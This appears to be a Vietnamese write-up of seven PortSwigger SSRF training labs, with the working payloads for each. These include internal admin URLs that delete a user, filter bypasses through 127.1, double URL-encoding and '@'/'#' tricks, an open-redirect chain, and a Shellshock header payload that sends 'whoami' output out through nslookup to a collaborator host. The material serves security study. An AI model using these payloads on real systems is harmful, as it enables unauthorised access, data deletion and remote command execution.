# Lab 01: Basic SSRF against the local server
Đề cung cấp thông tin lỗi SSRF trong chức năng kiểm tra số hàng trong kho, yêu cầu truy cập giao diện admin ở `http://localhost/admin` và xóa user carlos.  

Khi gửi yêu cầu, mình phát hiện ứng dụng gửi gói tin như sau.  
   

Toàn bộ khai thác mình sẽ dựa trên gói tin tại endpoint `POST /product/stock`  
Thay đổi giá trị biến `stockapi` thành `http://localhost/admin` để truy cập giao diện admin, chuột phải và chọn Open Response in Browser hoặc chọn tab Render để xem giao diện.  
  
  
  

Giao diện cho phép mình có thể xóa 2 user là carlos và wiener, phím `Delete` có vẻ là 1 thẻ `a`, thử check xem href dẫn đến đâu.   
   

Vậy để xóa user, cần gửi một yêu cầu `GET` đến `/admin/delete` với tham số `username` tương ứng. Và đương nhiên, để xóa cần quyền admin hoặc yêu cầu được gửi từ địa chỉ loopback.  

Payload cuối cùng điền vào stockapi
```
http://localhost/admin/delete?username=carlos
```

# Lab 02: Basic SSRF against another back-end system
Đề cung cấp thông tin lỗi SSRF trong chức năng kiểm tra số hàng trong kho, yêu cầu truy cập giao diện admin ở `192.168.0.X:8080` và xóa user carlos.  

Mình lấy gói tin check stock tương tự như lab trên.  
Đề không cung cấp địa chỉ chính xác, mình đành sử dụng Intruder để bruteforce địa chỉ chính xác. Payload fuzz của mình là `http://192.168.0.$$:8080/admin`, payload type sẽ là numbers trong khoảng từ 1-255, mình chọn gói tin dựa trên status code.    
  

Hoàn thành fuzz, mình tìm được 2 số cuối ip có status code hợp lệ là `1` và `49`.  
  

Trong đó `http://192.168.0.49:8080/admin` trả về admin panel.  
   

Khai thác tương tự như lab trên, thuộc tính href để xóa user carlos có giá trị là `/http://192.168.0.49:8080/admin/delete?username=carlos`. Vậy payload là  
```
stockApi=http://192.168.0.49:8080/admin/delete?username=carlos
```
  

# Lab 03: SSRF with blacklist-based input filter
Đề cung cấp thông tin lỗi SSRF trong chức năng kiểm tra số hàng trong kho, yêu cầu truy cập giao diện admin ở `http://localhost/admin` và xóa user carlos, tuy nhiên server có bộ lọc chống SSRF.  

Bộ lọc chống SSRF ở đây, thường lọc những chuỗi nhạy cảm như `localhost`, hoặc IP `127.0.0.1`. Tuy nhiên cách này hoàn toàn có thể bị bypass. Portswigger có đề cập đến một số cách để bypass, tham khảo https://portswigger.net/web-security/ssrf#circumventing-common-ssrf-defenses  
  

Mình sẽ thử cách sử dụng `127.1`  
Đầu tiên thử nhập địa chỉ là `http://127.1` xem có bị chặn không đã.  
  

Vậy là cách đầu bypass được, thử thêm `/admin`, tuy nhiên mình bị chặn.  
  

Mình đoán server đang chặn chuỗi admin, mình thử nhập các chuỗi khác xem, như `/test` chẳng hạn.  
  

Server chỉ trả về `404 Not Found` chứ không phải là thông báo bị chặn. Trong nội dung tham khảo, có đề cập đến việc bypass bằng URL encode, mình thử encode bằng Burp Decoder chuỗi admin xem sao.   
Chuỗi phải encode 2 lần mới bypass được, `admin` sẽ trở thành.
```
%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```
  
Truy cập admin panel và xóa user carlos tương tự như các lab trước.  
```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

# Lab 04: Blind SSRF with out-of-band detection
Đề cung cấp thông tin lỗi SSRF sẽ nằm trong Header Referer khi tải trang sản phẩm.  

Mình xem chi tiết 1 sản phẩm bất kỳ, bắt được gói tin như sau.  
  

Thử thay đổi đường dẫn trong Referer thành đường dẫn webhook, server phản hồi 200 và webhook cũng trả về kết quả.     
  
  

# Lab 05: SSRF with filter bypass via open redirection vulnerability
Đề cung cấp thông tin lỗi SSRF sẽ nằm ở chức năng kiểm tra kho hàng. Để giải lab, truy cập admin panel ở `http://192.168.0.12:8080/admin` và xóa user carlos, cần tìm lỗ hổng cho phép điều hướng trên server.   

Kiểm tra gói tin ở endpoint `/product/stock`, phát hiện biến stockAPI, lưu giá trị đường dẫn được encode URL, decode thành `/product/stock/check?productId=1&storeId=1`.    
  

Endpoint thứ hai mình tìm được nằm ở chức năng chuyển trang, khi chọn sẽ gửi 1 gói tin HTTP GET có chứa đường dẫn.  
  
Giá trị đường dẫn lưu trong biến GET `/path`.  
  

Đề bài đề cập đến lỗ hổng chuyển trang mở, nên mình nghi ngờ endpoint thứ hai có khả năng khai thác cao hơn. Thử đổi `path=http://192.168.0.12:8080/admin`, xem có truy cập được admin panel không.   
Kết quả gói tin trả về là `302 Found`, tuy nhiên khi chọn `Follow Redirection` thì không được, rất có thể yêu cầu redirect này được gửi từ trình duyệt của mình.      

Nhưng mình vẫn còn endpoint thứ nhất cũng xử lý yêu cầu đường dẫn, mình đổi `stockAPI` thành đường dẫn `stockApi=http%3a%2F%2F192.168.0.12%3a8080%2Fadmin`, nhưng bị báo lỗi.  
  

Mình so sánh cấu trúc đường dẫn, của endpoint đầu là là `/product/stock/check?productId=4&storeId=1` còn endpoint 2 là `/product/nextProduct?currentProductId=3&path=http://192.168.0.12:8080/admin`  

Rõ ràng cả 2 endpoint có cấu trúc tương tự nhau, vậy sẽ ra sao nếu mình thay biến `stockAPI` ở endpoint 1 thành đường dẫn của endpoint 2.  

```
stockApi=/product/nextProduct?currentProductId=3&path=/product?productId=4
```

Khai thác thành công.  
  

Thử đổi `path` thành địa chỉ admin panel.  
```
stockApi=/product/nextProduct?currentProductId=3&path=http://192.168.0.12:8080/admin
```
  

Vậy là mình truy cập được admin panel, trong HTML trả về có đề cập đến endpoint xóa user.  
```
stockApi=/product/nextProduct?currentProductId=3&path=http://192.168.0.12:8080/admin/delete?username=carlos
```

# Lab 06: SSRF with whitelist-based input filter
Đề cung cấp thông tin lỗi SSRF sẽ nằm ở chức năng kiểm tra kho hàng. Để giải lab, truy cập admin panel ở `http://192.168.0.12:8080/admin` và xóa user carlos.   

Khi mình thử với `stockApi=http://localhost/admin`, server trả về `"External stock check host must be stock.weliketoshop.net"`.  
  

Đề yêu cầu đường dẫn phải có `stock.weliketoshop.net`, vậy có cách nào để bypass không.  

Trên trang lý thuyết, PortSwigger có giới thiệu phương pháp sử dụng 2 dấu `@` và `#`, tuy nhiên lại không cung cấp ngữ cảnh tại sao.  
  

Dấu `@` khi sử dụng đơn lẻ, ví dụ `username@stock.weliketoshop.net` thì yêu cầu sẽ được gửi tới `stock.weliketoshop.net`, điều này hoàn toàn bypass được bộ lọc.  

Dấu `#` khi sử dụng đơn lẻ, ví dụ `username#stock.weliketoshop.net` thì phần đằng trước `#` sẽ là domain được gửi yêu cầu tới, còn phần đằng sau là phân mảnh.  

Dựa vào phân tích trên, mình thử kiểm tra xem bộ lọc của trang web chỉ lọc chuỗi URL, hay lọc dựa vào đích đến gói tin.  
```
stockApi=http://stock.weliketoshop.net@example.com
```
  
Tuy nhiên nếu ngược lại thì hợp lệ.
```
stockApi=http://username@stock.weliketoshop.net
```  
  

==> Trang web lọc dựa vào địa chỉ đích đến.  

Nếu là lọc chuỗi bình thường, mình có thể bypass với `localhost#stock.weliketoshop.net`, tuy nhiên ở đây lại lọc địa chỉ đích đến. Vì WAF và server của bài lab là 2 thành phần tách biệt, gói tin khi đến WAF sẽ được decode một lần, khi đến server sẽ được decode lần nữa.    

Mình thử double URL-encode xem sao.  
Payload
```
stockApi=http://localhost%2523@stock.weliketoshop.net
```

Mục đích payload là khi đến WAF, thực hiện decode lần đầu, payload trở thành.  
```
stockApi=http://localhost%23@stock.weliketoshop.net
```
URL không có dấu `#`, làm WAF bị nhầm lẫn, tưởng rằng URL đang gửi yêu cầu đến domain hợp lệ sau dấu `@`.  

Tuy nhiên, khi đến server, payload được decode lần nữa, trở thành.  
```
stockApi=http://localhost#@stock.weliketoshop.net
```

Lúc này, domain mặc dù hợp lệ `@stock.weliketoshop.net`, nhưng bị phân mảnh, triệt tiêu hoàn toàn. Server thực chất gửi yêu cầu tới `localhost`, thẻ HTML có id là `@stock.weliketoshop.net`.  

Để truy cập admin panel, thêm `/admin` vào cuối payload  
```
stockApi=http://localhost%2523@stock.weliketoshop.net/admin
```
   

Để xóa user.  
```
stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

# Lab 07: Blind SSRF with Shellshock exploitation
Đề yêu cầu khai thác Blind SSRF ở địa chỉ `192.168.0.X:8080`, trang web sẽ xử lý URL ở Referer header, sử dụng payload shellshock trích xuất OS user.  

Giả sử đây là một lab blind hoàn toàn và chúng ta không được cung cấp thông tin bị lỗi ở header Referer, thì ta phải test từng header tới webhook. Bài lab có giới thiệu mình sử dụng extension Collaborator Everywhere, đại khái sẽ inject các link collaborator ở các header và lắng nghe phản hồi, mỗi header sẽ có 1 đường dẫn webhook khác nhau.  

Sau khi cài đặt, mình chọn Add to Scope trong target, và duyệt chức năng trang web như bình thường. Một lúc sau, bên phải sẽ có thêm kết quả scan từ extension.  
  

Mình biết được, hiện tại có 2 trường bị lỗi là Referer và User Agent.  
Thông tin hiện tại, đề có nhắc trang web xử lý URL ở Referer, nên trường này mình chỉ nhập địa chỉ trang web. Còn về payload Shellshock mình sẽ để ở trường User Agent.  

Tham khảo thêm và tìm payload ở https://blog.cloudflare.com/inside-shellshock/.  

Có được payload, mình sử dụng Intruder duyệt danh sách các IP, mình sẽ sử dụng payload `() { :; }; nslookup $(whoami).BURPCOLLAB`, nhập vào trường User Agent. Còn về IP, mình nhập thêm `Referer: 192.168.0.%%:8080 ` để rà. 
  

Kết quả ta tìm được username.  
  